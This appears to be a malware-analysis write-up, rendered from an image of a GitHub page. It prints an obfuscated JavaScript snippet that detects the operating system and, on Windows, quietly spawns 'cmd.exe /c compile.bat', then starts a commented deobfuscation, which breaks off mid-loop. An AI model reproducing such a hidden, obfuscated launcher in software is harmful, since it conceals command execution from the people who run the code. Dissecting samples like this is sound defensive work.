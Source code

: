 ```javascript
    }
  }
}(_0x4f67, 251699));

const {exec} = require("child_process");

function _0x4f67() {
  const _0x5d7817 = ["28bejTPQ", "1355673ZDaxId", "779896MgsJdu", "child_process", "26358GzOkXk", "MacOS", "platform", "cmd.exe", "win64", "27EVEPMY", "win32", "768760SJubeg", "Linux", "111587KPhwpG", "compile.bat", "11xGbwXc", "linux", "darwin", "36HiOlse", "11PTXHjR", "3696096qOooYF", "173780mPHnxy"];
  _0x4f67 = function () {
    return _0x5d7817;
  };
  return _0x4f67();
}

var opsys = process[_0x29286e(252)];

function _0x3b9e(_0x21f5ee, _0x411966) {
  const _0x4f6708 = _0x4f67();
  return _0x3b9e = function (_0x3b9ecb, _0x3ac81f) {
    _0x3b9ecb = _0x3b9ecb - 233;
    let _0x5a6794 = _0x4f6708[_0x3b9ecb];
    return _0x5a6794;
  }, _0x3b9e(_0x21f5ee, _0x411966);
}

if (opsys == _0x29286e(241)) opsys = _0x29286e(251); else {
  if (opsys == _0x29286e(234) || opsys == _0x29286e(254)) {
    opsys = "Windows";
    const {spawn} = require(_0x29286e(249)), bat = spawn(_0x29286e(253), ["/c", _0x29286e(238)]);
  } else opsys == _0x29286e(240) && (opsys = _0x29286e(236));
}
```

**Fully annotated analysis of javascript**<br/>
After I analyzed the javascript and updated the variables I produced the commented file below.

**High level:**
* Rotating array of fields
    * The script works by pre-creating an array of alphanumeric text fields some of which produce integers to be used in a long calculation
    * The script starts by performing this calculation with an expected result to make and if it fails it rotates the array by one and attempts again until it succeeds
    * The end result is the same array of fields but in a new order
* Detects whether it is running on MacOS, Windows, or Linux
* If running on Windows it will execute `child_proccess.spawn("cmd.exe /c compile.bat")`

```javascript
const ptr_func3 = func3;

// This rotates the values in the array until the magical result compares to 251699
(function (rotating_array, target_value) {
  const ptr_func3 = func3, ptr_rotating_array = rotating_array();

  // NOTE: The double exclamation mark in JavaScript basically means convert to Boolean, invert, then invert again. I documented this on my blog for quick reference as I keep running into it
  while (!![]) { // while([] != 0)
    try {
```